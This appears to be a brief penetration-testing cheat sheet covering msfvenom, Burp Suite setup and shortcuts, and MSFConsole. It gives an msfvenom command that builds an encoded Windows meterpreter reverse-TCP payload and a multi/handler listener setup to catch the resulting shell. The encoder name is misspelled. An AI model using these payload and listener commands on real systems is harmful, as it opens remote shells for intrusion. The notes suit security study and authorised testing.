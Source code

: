 

> ##### Examples

Kali> msfvenom -p windows/meterpreter/reverse_tcp
                                lhost=192.168.1.232
                                lport=4444
                                --platform Windows
                                -a x86
                                -e x86/shikita_ga_nai
                                -b '\x00\x20\x25\x2b\x2f\x5c'
                                -v payload
                                -f python
                                --smallest



## BurpSuite

> ##### Setup

add to scope
only show scoped items



> ##### Intercept Traffic

Chain Burp Proxy such as:
127.0.0.1:80 -> $TARGET:80



> ##### Shortcuts

Send to repeater: Ctrl+R



## MSFConsole

> ##### Reverse TCP

msfconsole> use multi/handler
msfconsole> set payload windows/meterpreter/reverse_tcp
msfconsole> set lhost 10.10.10.1
msfconsole> set lport 4444
msfconsole> set exitonsession false
msfconsole> set enablestageencoding true



> ##### Jobs

msfconsole> jobs -K
msfconsole> jobs -L



## GDB
